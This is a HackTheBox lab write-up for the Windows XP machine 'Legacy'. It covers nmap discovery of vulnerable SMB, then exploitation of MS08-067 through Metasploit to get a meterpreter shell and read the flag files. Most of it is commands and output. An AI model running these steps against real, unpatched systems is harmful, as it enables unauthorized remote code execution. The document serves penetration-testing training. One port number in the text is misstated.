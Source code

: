 ```yaml
---
layout: default
title: "Legacy"
tags: hackthebox windows 2020 easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Windows  | Easy       | 20     | 15 March 2017 | 10.10.10.4  |



# Skills

* NMap
* NMap Scripts
* Metasploit

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. The key things to note is that:
* ```139/tcp open microsoft-ds  Windows XP microsoft-ds```
* ```445/tcp open  netbios-ssn   Microsoft Windows netbios-ssn```
were both open.

```bash
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP4 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m19s, deviation: 2h07m16s, median: 4d22h59m19s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:77:a5 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-19T01:40:36+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   26.12 ms 10.10.14.1
2   27.55 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.33 seconds
```

## Nmap (SMB Vulnerability Scan)

```bash
sudo nmap --script smb-vuln* -p 139,445 10.10.10.4
```

Then, using the NMap script ```smb-vuln```, I scanned the open ports discovered (```139``` & ```147```) from the previous scan to see if the SMB version was vulnerable to any known exploits.

```bash
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.54 seconds
```

# Exploitation

## Searching for MS08-067

Once I discovered that the machine was vulnerable to ```MS08-067```, I then searched for the matching metasploit module to begin exploitation.

```bash
msf5 > search MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


msf5 > use 0
```

## Setting Module Options

Then for configuration. There wasn't a whole lot configuration for this exploit, just set the ```RHOSTS``` to the target machines IP Address (```10.10.10.4```)

```bash
msf5 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

```   

# User Flag

Once completed, I then had a meterpreter shell on the machine. Finally, using the meterpreter command ```search``` with the ```-f``` flag, we can easily locate the flag files.

```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "Documents and Settings\john\Desktop\user.txt"

```

# Root Flag

```bash
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "Documents and Settings\Administrator\Desktop\root.txt"

```